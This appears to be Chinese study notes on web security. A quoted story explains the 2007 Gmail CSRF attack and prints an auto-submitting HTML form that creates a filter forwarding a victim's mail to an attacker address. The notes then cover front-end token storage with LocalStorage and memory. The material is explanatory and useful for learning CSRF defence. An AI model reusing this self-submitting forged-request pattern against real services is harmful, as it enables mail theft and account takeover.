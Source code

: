    > 小明仔细查了下域名的转让，对方是拥有自己的验证码的，而域名的验证码只存在于自己的邮箱里面。小明回想起那天奇怪的链接，打开后重新查看了“空白页”的源码：
   >
   > ```javascript
   > <form method="POST" action="https://mail.google.com/mail/h/ewt1jmuj4ddv/?v=prf" enctype="multipart/form-data"> 
   >     <input type="hidden" name="cf2_emc" value="true"/> 
   >     <input type="hidden" name="cf2_email" value="hacker@hakermail.com"/> 
   >     .....
   >     <input type="hidden" name="irf" value="on"/> 
   >     <input type="hidden" name="nvp_bu_cftb" value="Create Filter"/> 
   > </form> 
   > <script> 
   >     document.forms[0].submit();
   > </script>
   > ```
   >
   > > 这个页面只要打开，就会向Gmail发送一个post请求。请求中，执行了“Create Filter”命令，将所有的邮件，转发到“hacker@hackermail.com”。
   > >
   > > 小明由于刚刚就登陆了Gmail，所以这个请求发送时，携带着小明的登录凭证（Cookie），Gmail的后台接收到请求，验证了确实有小明的登录凭证，于是成功给小明配置了过滤器。
   > >
   > > 黑客可以查看小明的所有邮件，包括邮件里的域名验证码等隐私信息。拿到验证码之后，黑客就可以要求域名服务商把域名重置给自己。
   >
   > 小明很快打开Gmail，找到了那条过滤器，将其删除。然而，已经泄露的邮件，已经被转让的域名，再也无法挽回了……
   >
   > 以上就是小明的悲惨遭遇。而“点开一个黑客的链接，所有邮件都被窃取”这种事情并不是杜撰的，此事件原型是2007年Gmail的CSRF漏洞：
   >
   > [https://www.davidairey.com/google-Gmail-security-hijack/](https://www.davidairey.com/google-gmail-security-hijack/)
   >
   > 当然，目前此漏洞已被Gmail修复

2. **结合使用 LocalStorage 和内存**

    - **LocalStorage**：用于存储 Token 的加密副本，用于持久化和恢复。
    - **内存**：在运行时将 Token 加载到内存中，减少对 LocalStorage 的访问。

#### Token 存储时机

1. **登录成功后**：
    - 在用户成功登录后，从服务器接收到 Token，并在前端存储。
2. **Token 刷新时**：
    - 在 Token 即将过期时，通过刷新 Token API 获取新的 Token，并更新存储。

#### 携带 Token 的时机

1. **自动登录**：
    - 在页面加载时检查 Token 是否存在并有效。
    - 如果有效，自动发送 Token 进行身份验证。
2. **每次 API 请求**：
    - 每次向受保护的 API 发送请求时，携带 Token 进行身份验证。
3. **页面重载**：
    - 当页面重载或导航时，从存储中读取 Token 并加载到内存中。
